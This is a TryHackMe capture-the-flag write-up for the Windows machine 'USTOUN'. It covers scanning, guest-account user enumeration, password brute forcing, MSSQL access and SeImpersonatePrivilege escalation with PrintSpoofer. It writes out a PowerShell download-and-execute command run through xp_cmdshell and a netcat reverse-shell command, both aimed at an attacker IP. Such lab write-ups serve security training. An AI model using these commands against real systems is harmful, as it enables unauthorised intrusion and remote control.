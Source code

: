 # USTOUN TryHackMe Writeup
### Level: `Medium` | OS: `Windows`

![logo](1.png)

## Scanning
We perform a quick and aggressive scan (**not recommended in real environments**) to detect open ports on the server.

![](2.png)

Then, knowing the ports, we will launch an nmap with scripts and versions.

![](3.png)


## Enumeration
We test if we can authenticate with an anonymous user, we see that we cannot.

![](4.png)

Another test that I usually do in real environments, is to test with the *"guest"* user, which is usually enabled by default. As you can see in the evidence, we can use it to get the users by their **RID**.

![](5.png)

We create a list of the most relevant users obtained and brute force the *"rockyou"* dictionary. We will get some credentials.

![](6.png)


## Exploitation
After several tests in different services, we found that the credentials are functional in the *"Microsoft SQL Server"* service, from here we will be able to load a reverse shell.

![](7.png)

```powershell
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.11.30.149:8000/m3.ps1\")
```

#### Reverse shell connection

![](8.png)

## Privilege Escalation
We tried to read the user flag, but we do not have access. We check the user's privileges and see that we could escalate by impersonating the user **"Administrator"** using **"SeImpersonatePrivilege"**.

![](9.png)

We identify the exact version of Windows installed.

![](10.png)

We download the **PrintSpoofer** exploit from this [github](https://github.com/itm4n/PrintSpoofer), we also download **netcat** to the victim machine and run the following command putting a listening **netcat** on our Kali.

```
.\PrintSpoofer.exe -c "C:\users\SVC-Kerb.DC01\Videos\nc.exe 10.11.30.149 444 -e cmd"
```

![](13.png)

#### Reverse shell as Administrator

![](13-2.png)

And now we read the two flags.

#### User flag

![](15.png)

#### Administrator flag

![](14.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='43' align='center'> [@David_Uton](https://twitter.com/David_Uton)

